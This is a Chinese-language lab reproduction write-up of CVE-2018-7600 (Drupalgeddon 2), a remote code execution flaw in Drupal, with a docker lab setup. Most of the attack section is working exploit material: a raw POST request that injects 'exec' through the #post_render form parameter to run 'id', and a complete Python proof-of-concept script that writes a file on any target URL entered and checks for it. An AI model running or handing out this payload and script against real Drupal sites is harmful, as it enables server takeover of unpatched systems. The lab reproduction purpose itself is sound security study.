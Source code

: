 （CVE-2018-7600）Drupal Drupalgeddon 2 远程代码执行漏洞
=======================================================

一、漏洞简介
------------

Drupal是Drupal社区所维护的一套使用PHP语言开发的免费，开源的内容管理系统。版本受到影响：Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

二、漏洞影响
------------

Drupal7.58之前的版本，8.3.9之前的8.x版本，8.4.6之前的8.4.x版本，8.5.1之前的8.5.x版本。

三、复现过程
------------

### 漏洞环境

执行如下命令启动drupal 8.5.0的环境：

    docker-compose up -d

环境启动后，访问`http://your-ip:8080/`将会看到drupal的安装页面，一路默认配置下一步安装。因为没有mysql环境，所以安装的时候可以选择sqlite数据库。

### 漏洞复现

参考[ianxtianxt/CVE-2018-7600](https://github.com/ianxtianxt/CVE-2018-7600)，我们向安装完成的drupal发送如下数据包：

    POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
    Host: your-ip:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 103

    form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id

成功执行代码，这个代码最终执行了id命令：

![](./.resource/(CVE-2018-7600)DrupalDrupalgeddon2远程代码执行漏洞/media/rId27.png)

### **exploit.py**

    #!/usr/bin/env python3
    import sys
    import requests

    print ('################################################################')
    print ('# Proof-Of-Concept for CVE-2018-7600')
    print ('# by Vitalii Rudnykh')
    print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
    print ('# https://github.com/a2u/CVE-2018-7600')
    print ('################################################################')
    print ('Provided only for educational or information purposes\n')

    target = input('Enter target url (example: https://domain.ltd/): ')

    # Add proxy support (eg. BURP to analyze HTTP(s) traffic)
    # set verify = False if your proxy certificate is self signed
    # remember to set proxies both for http and https
    # 
    # example:
    # proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
    # verify = False
    proxies = {}
    verify = True

    url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax' 
    payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo ";-)" | tee hello.txt'}

    r = requests.post(url, proxies=proxies, data=payload, verify=verify)
    check = requests.get(target + 'hello.txt', proxies=proxies, verify=verify)
    if check.status_code != 200:
      sys.exit("Not exploitable")
    print ('\nCheck: '+target+'hello.txt')

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2018-7600/
